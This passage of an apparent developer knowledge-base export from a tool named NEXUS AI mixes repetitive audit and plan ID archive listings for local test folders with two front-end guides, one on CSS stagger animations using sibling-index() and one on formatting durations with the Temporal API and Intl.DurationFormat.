- **Audit ID**: AUDIT-1778145347566-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\code_generation_safety_test_(forge) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145348002 | **Audit Ref**: AUDIT-1778145347566 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, code_generation_safety_test_(forge)]

### 📘 KNOWLEDGE: NEXUS_DYNAMIC-SIBLING-ANIMATIONS.MD

# Creating a stagger animation
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Stagger animations provide an interesting effect where multiple ordered elements animate sequentially with a slight delay between each, rather than all animating at once. This technique is often used in lists, galleries, or navigation menus to guide the user's eye and add a polished, rhythmic feel to interactions.

## Stagger animations with `sibling-index()`

Use the `sibling-index()` property on the `animation-delay` property so that the animation on each element is offset by a number proportionate to their position in their parent. The `sibling-index()` function returns an integer, so it must be multiplied by a time unit to convert it to a time.

```css
#stagger-list > .item {
  --stagger-time: 0.1s;
  /* Define the animation first */
  animation: fade-in 0.4s;
  /* Set the `animation-delay` to a time multipled by the `sibling-index()` */
  animation-delay: calc(sibling-index() * var(--stagger-time))
}
```

**MANDATORY:** Respect user preferences by disabling the animation for users who prefer reduced motion. 

```css
@media (prefers-reduced-motion: reduce){
  /* Disable animation for users who prefer reduced motion. */
  #stagger-list > .item {
    animation: none;
  }
}
```

## Fallback strategies

sibling-count() and sibling-index() has limited availability.
Supported by: Chrome 138 (Jun 2025), Edge 138 (Jun 2025), and Safari 26.2 (Dec 2025).
Unsupported in: Firefox.

Test for support for `sibling-index()` using CSS with `@supports (animation-delay: calc(sibling-index() * 0.1s)){}` or JavaScript with `!CSS.supports('animation-delay: calc(sibling-index() * 0.1s)')`.

To support stagger animations in older browsers, use JavaScript to add a `--sibling-index` custom property to each sibling element. MANDATORY: wrap this in a `CSS.supports('animation-delay: calc(sibling-index() * 0.1s)')` test to avoid running unneeded JavaScript.

```js
if(!CSS.supports('animation-delay: calc(sibling-index() * 0.1s)')){
  const staggerList = document.getElementById('stagger-list');
  [...staggerList.children].forEach((el, index)=>el.style.setProperty('--sibling-index', index + 1));
}
```

Add an `animation-delay` declaration that uses the `--sibling-index` custom property. It must be before the `animation-delay` declaration that uses the `sibling-index()` function. This does not need to be wrapped in `@supports` - older browsers will not parse the second declaration and will use the first declaration.

```css
#stagger-list > .item {
  animation-delay: calc(var(--sibling-index) * var(--stagger-time));
  animation-delay: calc(sibling-index() * var(--stagger-time));
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_END-TO-END_INTELLIGENT_AUDIT_SYSTEM_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144655806 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 9
- **Audit ID**: AUDIT-1778144655806-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144655806-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144655806-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144655806-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144655806-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144655806-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144656256 | **Audit Ref**: AUDIT-1778144655806 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144930072 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 7
- **Audit ID**: AUDIT-1778144930072-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144930072-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144930072-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144930072-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144930072-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144930072-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144930631 | **Audit Ref**: AUDIT-1778144930072 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144974448 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 7
- **Audit ID**: AUDIT-1778144974448-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144974448-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144974448-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144974448-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144974448-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778144974448-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144975089 | **Audit Ref**: AUDIT-1778144974448 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145176868 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145176868-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145176868-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145176868-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145176868-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145176868-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145176868-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145177281 | **Audit Ref**: AUDIT-1778145176868 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145294786 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145294786-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145294786-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145294786-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145294786-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145294786-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145294786-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145295275 | **Audit Ref**: AUDIT-1778145294786 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145354578 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 7
- **Audit ID**: AUDIT-1778145354578-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145354578-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145354578-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145354578-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145354578-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1
- **Audit ID**: AUDIT-1778145354578-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\end-to-end_intelligent_audit_system | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145355068 | **Audit Ref**: AUDIT-1778145354578 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, end-to-end_intelligent_audit_system]

### 📘 KNOWLEDGE: NEXUS_FAILURE_RECOVERY_ENGINE_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144612984 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 9
- **Audit ID**: AUDIT-1778144612984-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144612984-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144612984-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144612984-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144612984-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144612984-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144613463 | **Audit Ref**: AUDIT-1778144612984 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144903807 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 7
- **Audit ID**: AUDIT-1778144903807-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144903807-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144903807-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144903807-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144903807-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144903807-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144904170 | **Audit Ref**: AUDIT-1778144903807 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144948098 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 7
- **Audit ID**: AUDIT-1778144948098-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144948098-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144948098-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144948098-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144948098-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778144948098-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144948573 | **Audit Ref**: AUDIT-1778144948098 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145150602 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 7
- **Audit ID**: AUDIT-1778145150602-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145150602-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145150602-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145150602-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145150602-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145150602-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145151067 | **Audit Ref**: AUDIT-1778145150602 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145267311 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 7
- **Audit ID**: AUDIT-1778145267311-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145267311-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145267311-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145267311-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145267311-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145267311-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145267732 | **Audit Ref**: AUDIT-1778145267311 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145326860 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 7
- **Audit ID**: AUDIT-1778145326860-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145326860-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145326860-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145326860-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145326860-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1
- **Audit ID**: AUDIT-1778145326860-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\failure_recovery_engine | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145327275 | **Audit Ref**: AUDIT-1778145326860 | **Tasks**: 3


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd, test_result, failure_recovery_engine]

### 📘 KNOWLEDGE: NEXUS_FORMAT-HUMAN-READABLE-DURATIONS.MD

# Formatting Human-Readable Durations with Temporal
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Presenting elapsed time or durations to users in a readable format (e.g., "1 hour and 30 minutes") has historically required manual math or external libraries. The `Temporal` API's `Temporal.Duration` class simplifies this by providing structured duration objects and powerful "balancing" capabilities via the `round()` method.

## How to Implement

To format a duration:

1.  (**MANDATORY**) **Create a Duration**: Use `Temporal.Duration.from()` to create a duration object from a set of units.
2.  (**OPTIONAL**) **Apply Balancing**: Use the `round()` method with the `largestUnit` option to control how units are balanced. For example, to convert 90 minutes into hours and minutes, or to keep it as total minutes.
3.  (**MANDATORY**) **Build the Display String**: Access the specific unit properties (like `.hours`, `.minutes`) to construct the human-readable string manually, or **(Recommended)** use `Intl.DurationFormat` for a localized, automatic approach.

### Example: Balancing and Localized Formatting

```javascript
// 1. Create a duration (e.g., from user input)
const duration = Temporal.Duration.from({ minutes: 90 });

// 2. Balance to hours (converts 90 minutes to 1 hour and 30 minutes)
const balanced = duration.round({ largestUnit: 'hours' });

// 3. Format using Intl.DurationFormat (Handles pluralization automatically)
const formatter = new Intl.DurationFormat('en', { style: 'long' });
console.log(formatter.format(balanced));
// Note: Output may vary by browser (e.g., "1 hour and 30 minutes" or "1 hour, 30 minutes")
```

### Best Practices

*   **DO** use `Temporal.Duration.round()` with `largestUnit` to control the display strategy (detailed breakdown vs total count).
*   **DO** use `Intl.DurationFormat` for localized string formatting and automatic pluralization, or fall back to manual construction if not supported. 
*   **DO NOT** rely on `Temporal.Duration.prototype.toString()` for user-facing text; it returns ISO 8601 strings (e.g., `PT1H30M`).
*   **DO** use feature detection and a polyfill for environments lacking native support.

## Fallback strategies

### Fallbacks & browser support for Temporal

Temporal has limited availability.
Supported by: Chrome 144 (Jan 2026), Edge 144 (Jan 2026), and Firefox 139 (May 2025).
Unsupported in: Safari.

For browsers that do not yet support the native `Temporal` API, use feature detection and a polyfill. The standard reference polyfill is `@js-temporal/polyfill`.

Note that the polyfill does not automatically assign the `Temporal` object to the global scope to avoid conflicts. You must manually assign it if your code relies on the global `Temporal` object.

```javascript
// Check if Temporal is supported natively
(async () => {
  if (typeof Temporal === 'undefined') {
    // Load the polyfill conditionally
    const module = await import("https://esm.sh/@js-temporal/polyfill");
    globalThis.Temporal = module.Temporal;
    // Extend Date.prototype if needed
    Date.prototype.toTemporalInstant = module.toTemporalInstant;
    initializeApp();
  }
})();
```

### Intl.DurationFormat

Baseline status for Intl.DurationFormat: Newly available. It's been Baseline since 2025-03-04.
Supported by: Chrome 129 (Sep 2024), Edge 129 (Sep 2024), Firefox 136 (Mar 2025), and Safari 16.4 (Mar 2023).

If `Intl.DurationFormat` is not supported, you should feature-detect it and fall back to manual string construction by extracting the balanced duration properties.

* **Guidance:** Use `typeof Intl.DurationFormat !== 'undefined'` to check for support. If unsupported, extract properties like `.hours` and `.minutes` from the balanced `Temporal.Duration` object and combine them, handling pluralization properly.

```javascript
// 3. Format the display string

if (typeof Intl.DurationFormat !== 'undefined') {
  // Use recommended Intl API if available
  const formatter = new Intl.DurationFormat('en', { style: 'long' });
  console.log(formatter.format(balanced));
} else {
  // Fallback manual formatting (assuming duration is already balanced)
  const h = balanced.hours;
  const m = balanced.minutes;

  const hoursStr = `${h} hour${h === 1 ? '' : 's'}`;
  const minutesStr = `${m} minute${m === 1 ? '' : 's'}`;

  console.log(`${hoursStr} and ${minutesStr}`);
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [tdd]

### 📘 KNOWLEDGE: NEXUS_FULL_STACK_INTERACTION_TEST_(TALL_FLOW)_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144601234 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 9
- **Audit ID**: AUDIT-1778144601234-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144601234-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144601234-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144601234-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144601234-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144601234-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144601882 | **Audit Ref**: AUDIT-1778144601234 | **Tasks**: 5


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144897619 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 7
- **Audit ID**: AUDIT-1778144897619-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144897619-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144897619-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144897619-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144897619-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144897619-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144897998 | **Audit Ref**: AUDIT-1778144897619 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778144941410 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 7
- **Audit ID**: AUDIT-1778144941410-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144941410-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144941410-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144941410-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144941410-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778144941410-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778144941791 | **Audit Ref**: AUDIT-1778144941410 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
- **Audit ID**: AUDIT-1778145144167 | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 7
- **Audit ID**: AUDIT-1778145144167-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145144167-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145144167-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145144167-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145144167-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1
- **Audit ID**: AUDIT-1778145144167-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI\tests\full_stack_interaction_test_(tall_flow) | **Findings**: 1


## 🛠 ARCHIVED PLANS - 07/05/2026
- **Plan ID**: PLAN-1778145144564 | **Audit Ref**: AUDIT-1778145144167 | **Tasks**: 3


## 📁 ARCHIVED AUDITS - 07/05/2026
